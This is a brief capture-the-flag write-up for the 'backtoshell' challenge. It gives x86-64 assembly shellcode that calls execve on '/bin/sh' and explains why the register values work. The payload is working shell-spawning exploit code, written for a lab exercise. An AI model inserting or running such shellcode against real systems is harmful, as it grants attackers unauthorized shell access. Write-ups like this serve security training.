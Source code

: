 # backtoshell

Very simple challenge. It basically reads the shellcode from stdin and executes it. We only need to pass the correct shellcode.

```asm
mov rdi, rax
add rdi, 16
mov rax, 0x3b
syscall
.string "/bin/sh"
```

RAX register contains the address of the shellcode (returned by the read syscall). We need to add 16 to it to get the address of the string "/bin/sh" (which is the first argument of the execve syscall). Then we can call execve.

Note that RSI and RDX are already set to 0, so we don't need to set them.
